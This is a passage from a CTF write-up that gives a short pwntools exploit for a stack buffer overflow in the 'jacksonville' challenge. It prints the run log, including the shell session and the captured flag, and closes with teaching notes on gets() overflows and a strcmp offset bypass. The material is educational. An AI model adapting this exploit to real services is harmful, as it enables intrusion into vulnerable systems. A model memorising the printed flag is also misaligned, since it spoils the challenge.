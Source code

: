 ### Solution 3: Minimal Version

```python
from pwn import *

p = remote("chal.sunshinectf.games", 25602)

# One-liner payload
payload = b"A" * 6 + b"Jaguars\x00" + b"A" * 90 + p64(0) + p64(0x4011f6)

p.sendlineafter(b"> ", payload)
p.interactive()
```

---

## Running the Exploit

```bash
$ python3 exploit.py
[*] '/path/to/jacksonville'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.sunshinectf.games on port 25602
[*] Payload length: 120 bytes
[*] Win address: 0x4011f6
[+] Shell should spawn!
[*] Switching to interactive mode
$ whoami
ctf
$ cat flag.txt
sun{It4chI_b3ats_0b!to_nO_d!ff}
$ exit
[*] Got EOF while reading in interactive
```

---

## Key Takeaways

### Core Concepts

1. **Buffer Overflow Basics**
   - `gets()` has no bounds checking - classic vulnerability
   - Overflow to overwrite return address
   - Control program execution flow

2. **String Comparison Bypass**
   - `strcmp(buffer + 6, ...)` only checks from offset 6
   - First 6 bytes are ignored - use for padding
   - Null byte stops string comparison

